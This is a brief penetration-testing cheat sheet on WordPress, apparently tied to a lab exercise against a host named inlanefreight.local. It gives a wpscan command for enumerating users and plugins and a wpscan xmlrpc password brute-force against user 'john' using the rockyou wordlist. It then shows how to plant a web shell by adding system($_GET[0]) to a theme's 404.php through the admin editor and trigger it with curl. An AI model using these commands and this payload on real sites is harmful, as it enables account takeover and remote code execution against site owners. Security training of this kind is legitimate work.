


# WordPress

## Overview

During web application enumeration, it is important to identify WordPress installations and associated plugins and themes, as these significantly expand the attack surface. WordPress vulnerabilities often arise from outdated plugins, weak administrative credentials, or misconfigured file upload functionality. Enumerating version information, installed plugins, and exposed endpoints can provide valuable insight into potential exploitation opportunities.

---
wpscan
```
wpscan --url http://site.com/wordpress --api-token <your_token> --enumerate u,vp --plugins-detection aggressive
```

Plugins stored in wp-content/plugins. These stored in wp-content/themes

Valid Username but invalid password



Invalid Username




Brute Force Login
```
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

Code Execution
Admin Panel > Appearance > Theme Editor > Twenty Nineteen Then click select and edit page 404.php
```
system($_GET[0])
```
- Add this line just below the comments 
Click update file and navigate to it 
```
/wp-content/themes/<theme name>
```
or 
```
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```

